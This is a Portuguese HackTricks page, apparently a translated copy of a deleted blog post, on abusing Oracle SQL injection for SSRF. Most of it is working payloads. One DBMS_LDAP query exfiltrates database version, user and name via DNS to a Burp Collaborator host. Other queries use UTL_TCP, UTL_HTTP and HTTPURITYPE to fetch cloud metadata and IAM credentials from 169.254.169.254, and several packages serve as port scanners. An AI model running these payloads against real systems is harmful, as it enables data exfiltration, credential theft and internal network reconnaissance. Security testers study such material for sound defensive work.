 # Oracle injection

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

**Sirva este post uma cópia da máquina do tempo do post excluído de [https://ibreak.software/2020/06/using-sql-injection-to-perform-ssrf-xspa-attacks/](https://ibreak.software/2020/06/using-sql-injection-to-perform-ssrf-xspa-attacks/)**.

## SSRF

Usar o Oracle para fazer requisições HTTP e DNS fora de banda está bem documentado, mas como um meio de exfiltrar dados SQL em injeções. Sempre podemos modificar essas técnicas/funções para fazer outros SSRF/XSPA.

Instalar o Oracle pode ser realmente doloroso, especialmente se você quiser configurar uma instância rápida para testar comandos. Meu amigo e colega da [Appsecco](https://appsecco.com), [Abhisek Datta](https://github.com/abhisek), me apontou para [https://github.com/MaksymBilenko/docker-oracle-12c](https://github.com/MaksymBilenko/docker-oracle-12c) que me permitiu configurar uma instância em uma máquina Ubuntu t2.large da AWS e Docker.

Eu executei o comando docker com a flag `--network="host"` para que eu pudesse imitar o Oracle como uma instalação nativa com acesso total à rede, durante o curso deste post no blog.
```
docker run -d --network="host" quay.io/maksymbilenko/oracle-12c
```
#### Pacotes Oracle que suportam uma especificação de URL ou de Nome de Host/Número da Porta <a href="#oracle-packages-that-support-a-url-or-a-hostname-port-number-specification" id="oracle-packages-that-support-a-url-or-a-hostname-port-number-specification"></a>

Para encontrar pacotes e funções que suportam uma especificação de host e porta, fiz uma pesquisa no Google na [Documentação Online do Oracle Database](https://docs.oracle.com/database/121/index.html). Especificamente,
```
site:docs.oracle.com inurl:"/database/121/ARPLS" "host"|"hostname" "port"|"portnum"
```
A pesquisa retornou os seguintes resultados (nem todos podem ser usados para realizar rede externa)

* DBMS\_NETWORK\_ACL\_ADMIN
* UTL\_SMTP
* DBMS\_XDB
* DBMS\_SCHEDULER
* DBMS\_XDB\_CONFIG
* DBMS\_AQ
* UTL\_MAIL
* DBMS\_AQELM
* DBMS\_NETWORK\_ACL\_UTILITY
* DBMS\_MGD\_ID\_UTL
* UTL\_TCP
* DBMS\_MGWADM
* DBMS\_STREAMS\_ADM
* UTL\_HTTP

Essa pesquisa rudimentar obviamente ignora pacotes como `DBMS_LDAP` (que permite passar um nome de host e número de porta) como [a página de documentação](https://docs.oracle.com/database/121/ARPLS/d\_ldap.htm#ARPLS360) simplesmente aponta para um [local diferente](https://docs.oracle.com/database/121/ARPLS/d\_ldap.htm#ARPLS360). Portanto, pode haver outros pacotes Oracle que podem ser explorados para fazer solicitações externas que eu possa ter perdido.

De qualquer forma, vamos dar uma olhada em alguns dos pacotes que descobrimos e listamos acima.

**DBMS\_LDAP.INIT**

O pacote `DBMS_LDAP` permite o acesso a dados de servidores LDAP. A função `init()` inicializa uma sessão com um servidor LDAP e aceita um nome de host e número de porta como argumento.

Essa função já foi documentada anteriormente para mostrar a exfiltração de dados via DNS, como abaixo
```
SELECT DBMS_LDAP.INIT((SELECT version FROM v$instance)||'.'||(SELECT user FROM dual)||'.'||(select name from V$database)||'.'||'d4iqio0n80d5j4yg7mpu6oeif9l09p.burpcollaborator.net',80) FROM dual;
```
No entanto, dado que a função aceita um nome de host e um número de porta como argumentos, você pode usá-la para funcionar como um scanner de portas também.

Aqui estão alguns exemplos
```
SELECT DBMS_LDAP.INIT('scanme.nmap.org',22) FROM dual;
SELECT DBMS_LDAP.INIT('scanme.nmap.org',25) FROM dual;
SELECT DBMS_LDAP.INIT('scanme.nmap.org',80) FROM dual;
SELECT DBMS_LDAP.INIT('scanme.nmap.org',8080) FROM dual;
```
A `ORA-31203: DBMS_LDAP: PL/SQL - Init Failed.` mostra que a porta está fechada enquanto um valor de sessão aponta para a porta estando aberta.

**UTL\_SMTP**

O pacote `UTL_SMTP` é projetado para enviar e-mails via SMTP. O exemplo fornecido no [site de documentação da Oracle mostra como você pode usar este pacote para enviar um e-mail](https://docs.oracle.com/database/121/ARPLS/u_smtp.htm#ARPLS71478). Para nós, no entanto, o interessante é a capacidade de fornecer uma especificação de host e porta.

Um exemplo simples é mostrado abaixo com a função `UTL_SMTP.OPEN_CONNECTION`, com um tempo limite de 2 segundos.
```
DECLARE c utl_smtp.connection;
BEGIN
c := UTL_SMTP.OPEN_CONNECTION('scanme.nmap.org',80,2);
END;
```

```
DECLARE c utl_smtp.connection;
BEGIN
c := UTL_SMTP.OPEN_CONNECTION('scanme.nmap.org',8080,2);
END;
```
Um `ORA-29276: transfer timeout` mostra que a porta está aberta, mas nenhuma conexão SMTP foi estabelecida, enquanto um `ORA-29278: SMTP transient error: 421 Service not available` mostra que a porta está fechada.

**UTL\_TCP**

O pacote `UTL_TCP` e seus procedimentos e funções permitem [comunicação baseada em TCP/IP com serviços](https://docs.oracle.com/cd/B28359_01/appdev.111/b28419/u_tcp.htm#i1004190). Se programado para um serviço específico, este pacote pode facilmente se tornar uma porta de entrada na rede ou realizar solicitações completas do lado do servidor, pois todos os aspectos de uma conexão TCP/IP podem ser controlados.

O exemplo [no site de documentação da Oracle mostra como você pode usar este pacote para fazer uma conexão TCP bruta para buscar uma página da web](https://docs.oracle.com/cd/B28359_01/appdev.111/b28419/u_tcp.htm#i1004190). Podemos simplificá-lo um pouco mais e usá-lo para fazer solicitações à instância de metadados, por exemplo, ou a um serviço TCP/IP arbitrário.
```
set serveroutput on size 30000;
SET SERVEROUTPUT ON
DECLARE c utl_tcp.connection;
retval pls_integer;
BEGIN
c := utl_tcp.open_connection('169.254.169.254',80,tx_timeout => 2);
retval := utl_tcp.write_line(c, 'GET /latest/meta-data/ HTTP/1.0');
retval := utl_tcp.write_line(c);
BEGIN
LOOP
dbms_output.put_line(utl_tcp.get_line(c, TRUE));
END LOOP;
EXCEPTION
WHEN utl_tcp.end_of_input THEN
NULL;
END;
utl_tcp.close_connection(c);
END;
/
```

```
DECLARE c utl_tcp.connection;
retval pls_integer;
BEGIN
c := utl_tcp.open_connection('scanme.nmap.org',22,tx_timeout => 4);
retval := utl_tcp.write_line(c);
BEGIN
LOOP
dbms_output.put_line(utl_tcp.get_line(c, TRUE));
END LOOP;
EXCEPTION
WHEN utl_tcp.end_of_input THEN
NULL;
END;
utl_tcp.close_connection(c);
END;
```
Interessantemente, devido à capacidade de criar solicitações TCP brutas, este pacote também pode ser usado para consultar o serviço de meta-dados da Instância de todos os provedores de nuvem, uma vez que o tipo de método e os cabeçalhos adicionais podem ser todos passados dentro da solicitação TCP.

**UTL\_HTTP e Solicitações Web**

Talvez a técnica mais comum e amplamente documentada em todos os tutoriais de Injeção SQL Oracle Out of Band seja o [`UTL_HTTP` package](https://docs.oracle.com/database/121/ARPLS/u_http.htm#ARPLS070). Este pacote é definido pela documentação como - `O pacote UTL_HTTP faz chamadas do Protocolo de Transferência de Hipertexto (HTTP) a partir de SQL e PL/SQL. Você pode usá-lo para acessar dados na Internet via HTTP.`
```
select UTL_HTTP.request('http://169.254.169.254/latest/meta-data/iam/security-credentials/adminrole') from dual;
```
Você poderia, adicionalmente, usar isso para realizar uma varredura de portas rudimentar também com consultas como
```
select UTL_HTTP.request('http://scanme.nmap.org:22') from dual;
select UTL_HTTP.request('http://scanme.nmap.org:8080') from dual;
select UTL_HTTP.request('http://scanme.nmap.org:25') from dual;
```
Um `ORA-12541: TNS:no listener` ou um `TNS:operation timed out` é um sinal de que a porta TCP está fechada, enquanto um `ORA-29263: HTTP protocol error` ou dados são um sinal de que a porta está aberta.

Outro pacote que usei no passado com sucesso variado é o [`GETCLOB()` método do tipo abstrato `HTTPURITYPE` do Oracle](https://docs.oracle.com/database/121/ARPLS/t\_dburi.htm#ARPLS71705) que permite interagir com uma URL e fornece suporte para o protocolo HTTP. O método `GETCLOB()` é usado para buscar a resposta GET de uma URL como um [tipo de dado CLOB.](https://docs.oracle.com/javadb/10.10.1.2/ref/rrefclob.html)[select HTTPURITYPE('http://169.254.169.254/latest/meta-data/instance-id').getclob() from dual;

{% hint style="success" %}
Aprenda e pratique Hacking AWS:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Aprenda e pratique Hacking GCP: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Confira os [**planos de assinatura**](https://github.com/sponsors/carlospolop)!
* **Junte-se ao** 💬 [**grupo do Discord**](https://discord.gg/hRep4RUj7f) ou ao [**grupo do telegram**](https://t.me/peass) ou **siga**-nos no **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Compartilhe truques de hacking enviando PRs para os repositórios do** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>
{% endhint %}
